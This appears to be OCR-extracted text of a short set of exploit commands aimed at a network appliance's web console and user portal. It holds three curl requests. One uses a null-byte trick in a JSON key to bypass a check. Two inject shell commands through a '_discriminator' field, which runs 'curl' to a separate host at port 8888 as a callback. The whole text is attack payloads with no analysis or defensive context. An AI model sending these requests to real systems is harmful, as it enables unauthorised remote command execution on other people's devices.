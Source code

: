 1040:

curl --connect-timeout 5 -X POST -k -i 'https://x.x.x.x:4444/webconsole/Controller' --data 'mode=151&json={"username"%3a"admin","password"%3a"pw","languageid"%3a"1","browser"%3a"Chrome_101","captcha"%3a"gn2x53","accessaction"%3a1,+"mode\u0000ef"%3a716}&__RequestType=ajax&t=1655987625589' --cookie 'JSESSIONID=xxxxxxx'


3236:

curl --connect-timeout 5 -X POST -k -i 'https://172.16.16.16:4444/webconsole/Controller' --data 'mode=151&json={"username"%3a"admin","password"%3a"pw","languageid"%3a"1","browser"%3a"Chrome_101","captcha"%3a"gn2x53","accessaction"%3a1,"value"%3a"value","_discriminator"%3a{"value"%3a";system(\"curl http://172.16.16.10:8888\")"}}'

curl --connect-timeout 5 -X POST -k -i 'https://172.16.16.16/userportal/Controller' --data 'mode=451&json={"username"%3a"admin","password"%3a"pw","value"%3a"value","_discriminator"%3a{"value"%3a";system(\"curl http://172.16.16.10:8888\")"}}'

